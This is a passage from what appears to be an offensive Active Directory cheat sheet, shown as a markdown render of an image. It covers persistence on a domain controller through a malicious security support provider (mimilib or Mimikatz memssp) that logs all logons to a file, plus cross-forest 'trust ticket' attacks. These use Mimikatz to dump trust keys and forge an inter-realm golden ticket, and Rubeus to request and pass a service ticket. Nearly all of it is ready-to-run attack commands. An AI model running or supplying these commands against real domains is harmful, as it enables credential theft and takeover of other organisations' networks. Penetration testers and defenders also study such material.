 ```text
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```

Now all logons on the DC are logged to -&gt; C:\Windows\System32\kiwissp.log

## Cross Forest Attacks

### Trust Tickets

_If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT._

⚠️ The access we will have will be limited to what our DA account is configured to have on the other Forest!

#### Using Mimikatz:

```text
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

❗ Tickets -&gt; .kirbi format

Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!

#### Using Rubeus:

```text
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

### Abuse MSSQL Servers
